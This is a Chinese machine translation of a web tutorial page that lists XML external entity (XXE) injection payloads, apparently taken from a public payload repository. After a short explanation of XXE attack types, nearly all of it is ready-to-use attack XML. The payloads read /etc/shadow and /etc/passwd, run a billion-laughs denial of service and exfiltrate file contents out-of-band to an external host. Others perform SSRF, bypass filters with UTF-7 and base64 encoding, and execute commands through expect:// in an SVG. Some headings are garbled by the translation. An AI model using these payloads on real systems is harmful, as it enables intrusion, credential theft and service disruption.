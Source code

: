 # XML 外部实体-XXE 注入有效负载列表

> 原文：<https://kalilinuxtutorials.com/xml-external-entity-xxe-injection-payload-list/>

[![XML External Entity – XXE Injection Payload List](img/348b20e7d02b213c9abdf72b8fcfe674.png "XML External Entity – XXE Injection Payload List")](https://1.bp.blogspot.com/-vEGOPV2PdNM/Xd97Ll9FL0I/AAAAAAAADqY/PVdi4_CErNMNSwZgmuM_jPWqIpGEw36eACLcBGAsYHQ/s1600/xxe-injection.png)

在本节中，我们将解释什么是 XML 外部实体注入，描述一些常见的示例，解释如何发现和利用各种 XXE 注入，并总结如何防止 XXE 注入攻击。

**什么是 XML 外部实体注入？**

XML 外部实体注入(也称为 XXE)是一个 web 安全漏洞，使得攻击者能够干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

在某些情况下，攻击者可以升级 XXE 攻击，通过利用 XXE 漏洞执行服务器端请求伪造(SSRF)攻击来危害底层服务器或其他后端基础设施。

XXE 攻击有多种类型:

| ***【xx 型袭击】*** | *描述* |
| --- | --- |
| 利用 XXE 检索文件 | 其中定义了包含文件内容的外部实体，并在应用程序的响应中返回。 |
| 利用 XXE 实施 SSRF 袭击 | 其中外部实体是基于到后端系统的 URL 定义的。 |
| 利用带外盲 XXE 渗出数据 | 敏感数据从应用服务器传输到攻击者控制的系统。 |
| 利用盲 XXE 通过错误消息检索数据 | 攻击者可以在其中触发包含敏感数据的解析错误消息。 |

**也可阅读-[Antispy:免费但强大的反病毒软件& Rootkits 工具包](https://kalilinuxtutorials.com/antispy-free-but-powerful-anti-virus-rootkits-toolkit/)**

**XML 外部实体(XXE)注入负载**

**XXE:基本 XML 示例**

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo> 
```

**XXE:实体示例**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo> 
```

**XXE:文件公开**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo> 
```

**XXE:拒绝服务示例**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag> 
```

**XXE:本地文件包含示例**

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo> 
```

XXE:盲本地文件包含示例(当第一个案例没有返回任何内容时。)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo> 
```

**XXE:访问控制旁路(加载受限资源–PHP 示例)**

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo> 
```

**XXE:SSRF(服务器端请求伪造)示例**

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo> 
```

**XXE:(远程攻击–通过外部 Xml 包含)示例**

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz> 
```

**XXE: UTF-7 Exmaple**

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4 
```

**xx:base64 编码**

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/> 
```

**XXE: XXE 内 SOAP 示例**

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body> 
```

**xx:xxin SVG**

```
<svg  xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg> 
```

[**Download**](https://github.com/payloadbox/xxe-injection-payload-list)